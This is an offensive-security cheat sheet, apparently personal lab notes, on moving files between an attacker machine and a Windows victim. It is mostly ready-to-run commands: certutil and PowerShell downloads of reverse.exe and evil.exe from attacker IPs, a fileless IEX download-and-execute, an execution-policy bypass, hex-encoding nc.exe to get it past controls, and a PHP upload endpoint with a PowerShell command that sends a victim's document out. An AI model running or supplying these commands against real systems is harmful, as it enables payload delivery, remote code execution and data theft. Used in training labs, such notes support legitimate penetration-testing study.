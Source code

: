 # Windows File Transfers

* FTP on attacker machine
- Can also use tftp for file transfers  


### Easiest file transfer methods
**Attacker -> Victim machine**
1. On attacking Machine: `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
	On Windows victim Machine: `copy \\192.168.49.80\kali\winPEAS.bat .`

2. certutil -urlcache -f  `<url>` `<executable>`
```
CMD='cmd.exe /c certutil.exe -f -urlcache -split http://192.168.49.132:22/reverse.exe c:/windows/temp/reverse.exe'
```

3. Let’s download this file to our Kali box using SCP. Start a SSH server if it is not already running

```
systemctl start ssh.socket 
```
To transfer a local file from your current machine to a remote host, you would run the following command
```
scp localfile user@192.168.178.27:remotefile
```

### Another Method
```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1 C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1 C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1 C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```


Run the above using `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro file -File wget.ps1`  
Powershell default exec policy is restriction, no logo to not seee logo and nopro for prevention of loading default profile

Can do the same in one line without creating a file:   
`c> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/evil.exe', 'newexploit.exe')`


Can also execute a file without saving it to disk:
`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString(' http://10.11.0.4/helloworld.ps1')`


### Windows Downloads with exe2hex and PowerShell
**Attacker - Victim machine**
Compress a binary, then convert to a hex string, embed to a windows script
Can use UPX: PE compression tool

On attacker machine: `upx -9 nc.exe`
`exe2hex -x nc.exe -p nc.cmd`
Transfer the nc file and on the windows host, run `powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$ h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte ]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1}; set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"`
command above can be found in the nc.cmd 


### Windows uploads using scripting languages
**Victim - Attacker machine**
On attacker kali machine, start an apache server and create an uploads directory. Change owner to www-data
```
<?php	
$uploaddir	=	'/var/www/uploads/';
$uploadfile	=	$uploaddir	.	$_FILES['file']['name'];	
move_uploaded_file($_FILES['file']['tmp_name'],	$uploadfile)	?>	
```

From windows machine: `powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')`

